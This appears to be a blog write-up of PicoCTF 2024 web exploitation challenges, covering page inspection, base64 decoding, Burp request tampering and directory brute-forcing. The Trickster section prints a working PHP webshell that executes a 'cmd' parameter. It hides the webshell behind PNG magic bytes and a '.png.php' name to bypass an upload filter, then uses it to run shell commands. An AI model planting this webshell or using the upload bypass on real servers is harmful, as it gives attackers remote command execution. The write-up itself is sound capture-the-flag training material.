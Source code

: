 +++
title = "PicoCTF 2024: Web Exploitation"

[taxonomies]
tags = ["picoctf", "coding", "ctf", "web"]
+++

I have considered myself... practically done with the Forensics category for PicoCTF 2024. It truly is a guessfest whether or not your first solution is correct - I can't believe throwing out a random `find` into the command-line actually gave me the answer for [Mob psycho](picoctf-2024-forensics#mob-psycho)...

Well, here we go again, this time in my arguably best non-forensics category - Web Exploitation! Once again, I will be going through each of the challenges and solving them, while writing out my thought process for each challenge.

> Same thing as Forensics, this blogpost will describe the challenges and give the solutions to them - but I will not be giving out the flag in its entirety. All solutions with the flag in plain text will have the flag replaced by `picoCTF{flag}`.

# WebDecode

> **Difficulty**: Easy \
> **Categories**: none

Well... We're thrown straight into a website that looks *really* suspicious. I'll perform due dilligence and... inspect the site HTML. Nothing in the home page, so I'll go into the About page.

And upon loading the About page, wow, the **very loud** text saying "Try inspecting the page!! You might find it there" really confirms that I'm getting somewhere.

Hitting F12 to open up my DevTools and I immediately see a weird section of HTML:

```html
<section class="about" notify_true="cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9">
   <h1>
    Try inspecting the page!! You might find it there
   </h1>
   <!-- .about-container -->
  </section>
```

That string looks very suspicious. One quick run into the base64 decoder again, using:

```
$ echo "cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9" | base64 -d
```

Aaaaaaaaand we've got it! Very simple challenge.

# Unminify

> **Difficulty**: Easy \
> **Categories**: obfuscation, minification

Yet another webpage, similar to [WebDecode](#webdecode) above. Once again, let's open up our DevTools and scan through the HTML.

It didn't take long before I reached this section of HTML:

```html
<p class="picoCTF{flag}"></p>
```

That's our flag, time to copy it and submit it.

# Bookmarklet

> **Difficulty**: Easy \
> **Categories**: obfuscation, browser

The website gives us another site, in the same template as [Unminify](#unminify). It also gives us a JavaScript bookmarklet to run as well. As it describes itself, it's a bookmarklet - very similar to my Kamaitachi maimai DX [import script](https://github.com/j1nxie/kt-maimaidx-site-importer). Let's create a quick bookmark and throw this in as the URL.

As soon as we click the bookmarklet, the flag shows up as an alert!

# IntroToBurp

> **Difficulty**: Easy \
> **Categories**: none

Well, as described by the challenge name, we'll need [BurpSuite](https://portswigger.net/burp) for this. Let's pull up BurpSuite and open the website in BurpSuite's browser (Proxy > Intercept > Turn on Intercept).

We see a little form that tells us to put our information in, and being the sane person that I am, I will put in my fully 100% real information into this.

![Screenshot of IntroToBurp form](/image/picoctf/introtoburp1.png)

Hitting the Register button, while forwarding the packet as-is to the server, brings us to another form.

![Screenshot of IntroToBurp 2FA](/image/picoctf/introtoburp2.png)

It's asking for an OTP code... but I haven't received anything. Weird. Let's try throwing in a random string... like `a` and submit it. BurpSuite nicely catches that request for us, and we can see the form data `otp=a` in the raw request packet. Let's try... removing that and see what happens!

After removing the OTP code from the form data, we got ourselves a nice malformed... well... form data sent over the wire. Let's see how the server reacts... And we got our flag!

# Trickster

> **Difficulty**: Medium \
> **Categories**: none

This is actually... a pretty tough one if you don't know where to immediately start. I opened up the site that the challenge gave, and there was no clear entry points to... anything, really. Uploading a PNG only gets a result string shown to you, like below.

![Screenshot of Trickster form](/image/picoctf/trickster1.png)

I tried accessing a random directory, e.g. `atlas.picoctf.net:<port>/what`, and I got a 404 Not Found. That's expected. I also see this is running Apache, which means... there's PHP. But we haven't seen any clear entry points to get an arbitrary PHP script running here.

Let's get back to the root site. Sitting here won't do us any good, I guess it's time to use some tools? Using `gobuster`, and running a brute-force for URIs like such:

```
$ gobuster dir --url http://atlas.picoctf.net:<port>/ --wordlist /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://atlas.picoctf.net:<port>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 285]
/.htpasswd            (Status: 403) [Size: 285]
/robots.txt           (Status: 200) [Size: 62]
/server-status        (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 333] [--> http://atlas.picoctf.net:49884/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We're seeing `robots.txt` that we can access, and `/uploads` being redirected to the root directory - looks like there's gonna be an accessible folder there. Let's try accessing `robots.txt`...

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

So the *very root* directory of `/uploads/` is not crawled, along with the file `instructions.txt`. Let's try looking at `instructions.txt`.

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Interesting... It looks like this doesn't do much validation on the PNG files themselves, other than checking for the `.png` extension *existing* in the file name, and the first few bytes containing `PNG`. I guess the uploaded files will also be stored under `/uploads/<file_name>`? That's an entry for our PHP now, no?

I will modify [easy-simple-php-webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) a tiny bit, so it has the magic bytes for PNG at the top.

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Along with that, I'll add the `.png` extension, saving it as `webshell.png.php` so it passes the extension check. Let's try uploading this. The form accepted it without any complaints! Time to try accessing this webshell under `/uploads/webshell.png.php`.

We're in. Let's try running `ls ../` to see the root directory. There's a weird file with the name `MQZWCYZWGI2WE.txt`. A simple `cat` on this file finally gives us the flag we're looking for!

# Afterwords

The final challenge of this category - titled "elements", honestly deserves a post of its own. It's of another level, and I've never seen myself so stuck on one. With that being said, that's practically all the solvable web challenges for PicoCTF 2024 as of writing this post. Thank you all for reading through to the end!
